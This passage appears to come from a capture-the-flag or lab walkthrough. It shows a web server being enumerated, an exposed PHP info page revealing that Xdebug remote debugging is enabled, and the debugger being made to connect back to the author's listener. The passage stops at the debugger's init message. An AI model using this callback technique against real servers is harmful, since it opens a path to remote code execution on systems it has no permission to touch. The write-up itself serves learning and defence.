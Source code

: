 
I tried to add a route for the class-C network with PKI (192.168.254.0/24),
but I still can’t ping it. I’ll note that one for later.

### Shell

#### Enumeration

Visiting 172.20.0.10 in Firefox shows a directory with no index and directory
listing on:

![image-20210802170130377](https://0xdfimages.gitlab.io/img/image-20210802170130377.png)

`vpn/` is the same login form I found before. `info.php` leads to a PHP info
page:

[
![image-20210802170350528](https://0xdfimages.gitlab.io/img/image-20210802170350528.png)
](https://0xdfimages.gitlab.io/img/image-20210802170350528.png)

[_Click for full
image_](https://0xdfimages.gitlab.io/img/image-20210802170350528.png)

There’s a ton of info there, but one bit that jumps out as unusual, xdebug:

[![image-20210802170440009](https://0xdfimages.gitlab.io/img/image-20210802170440009.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20210802170440009.png)

#### Getting Connection

[Xdebug](https://xdebug.org/) is a PHP extension designed to give developers
feedback on their application. It is not meant to run in production. I
actually played with this years ago on [HTB Olympus](/2018/09/22/htb-
olympus.html#rce-through-xdebug). Most configurations limit connection for
Xdebug to localhost, but an insecure configuration will allow for it to
connect to any IP. In fact, I can look at the PHP info and see that remote
debugging is enabled:

![image-20210802201427728](https://0xdfimages.gitlab.io/img/image-20210802201427728.png)

I can send a request to the server with the argument
`XDEBUG_SESSION_START=[some name]` (or with that as a cookie), then the site
will connect back to the IP connecting to it on TCP 9000. I can also use the
`X-Forwarded-For` header to tell it to connect back to another host as well.

For example, I’ll start `nc` on tcp 9000, and run `curl
172.20.0.10/info.php?XDEBUG_SESSION_START=0xdf` to trigger the debugger.
There’s a connection at `nc`:

    
    
    oxdf@parrot$ nc -lnvp 9000
    listening on [any] 9000 ...
    connect to [172.30.0.9] from (UNKNOWN) [172.30.0.1] 50964
    489<?xml version="1.0" encoding="iso-8859-1"?>
    <init xmlns="urn:debugger_protocol_v1" xmlns:xdebug="http://xdebug.org/dbgp/xdebug" fileuri="file:///var/www/html/info.php" language="PHP" xdebug:language_version="7.2.1-1ubuntu2" protocol_version="1.0" appid="50" idekey="0xdf"><engine version="2.6.0"><![CDATA[Xdebug]]></engine><author><![CDATA[Derick Rethans]]></author><url><![CDATA[http://xdebug.org]]></url><copyright><![CDATA[Copyright (c) 2002-2018 by Derick Rethans]]></copyright></init>
    